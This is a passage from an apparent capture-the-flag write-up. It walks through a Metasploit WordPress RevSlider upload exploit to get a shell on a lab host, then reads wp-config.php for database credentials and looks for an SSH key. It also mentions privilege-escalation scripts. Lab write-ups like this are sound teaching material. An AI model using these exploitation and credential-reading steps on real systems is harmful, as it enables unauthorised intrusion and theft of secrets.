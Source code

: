 	```NMA
	1. msfconsole
	2. use exploit/unix/webapp/wp_revslider_upload_execute
	3. (Optional) show options
	4. set rhosts 172.30.0.3 (ip of the box with the wp instance)
	5. shell
	```
5. Now we have a shell on the machine!

#### Post WP instance hack aka Database hack
1. You start in the directory of the exploit but we can go ahead and get to the root directory we care about

	```NMA
	cd /var/www
	```
2. Once in there we can see something called note.txt which reads:

	```NMA
	Your ssh key was placed in /backup/id_rsa on the DB server.
	```
3. So now we need to figure out how to get into the database. 
**Information not relevant to this challenge:**
I'll be honest here, I completely overlooked this for the first few hours. What I did, and what you should do on most penetration test boxes is run LinEnum.sh and LinuxPrivChecker.py to see if anything works right out of the gate to get root. Neither of these worked so I moved on

To get the database credentials we need some previous knowledge about Wordpress. Let’s first assume that it too uses a database (which of course it does) and then let’s assume that it has to store the login in plaintext so that I too can use them. These two things coupled means we need to cat wp-config.php

```NMA
cat wp-config.php
```

and that dumps a huge mess which is below

```PHP
<?php
/**
 * The base configuration for WordPress
 *
 * The wp-config.php creation script uses this file during the
 * installation. You don't have to use the web site, you can
 * copy this file to "wp-config.php" and fill in the values.
 *
 * This file contains the following configurations:
 *
 * * MySQL settings
 * * Secret keys
 * * Database table prefix
 * * ABSPATH
 *
 * @link https://codex.wordpress.org/Editing_wp-config.php
 *
 * @package WordPress
 */

// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define('DB_NAME', 'wordpress');

/** MySQL database username */
define('DB_USER', 'wordpress');

/** MySQL database password */
```